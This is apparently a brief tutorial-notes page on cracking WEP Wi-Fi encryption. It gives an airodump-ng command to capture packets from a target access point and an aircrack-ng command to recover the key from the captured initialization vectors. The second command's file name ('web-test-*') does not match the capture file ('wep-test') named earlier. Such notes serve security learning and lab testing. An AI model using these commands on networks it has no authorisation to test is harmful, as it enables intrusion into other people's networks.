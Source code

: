 # WEP cracking

**Passive Attack which attacker Sniff packet on target network and save it in file call `wep-test`**

![image.png](../../../.gitbook/assets/image.png)

```bash
airodump-ng wlan0 --channel 5 --bssid D8:29:18:0A:08:91 --write wep-test
```

***

### Use Aircrack-ng tool

which crack WEP by initialization vector

```bash
aircrack-ng web-test-*
```

need more than 5000 IVs `each action is IVs`

<figure><img src="../../../.gitbook/assets/image 1.png" alt=""><figcaption></figcaption></figure>
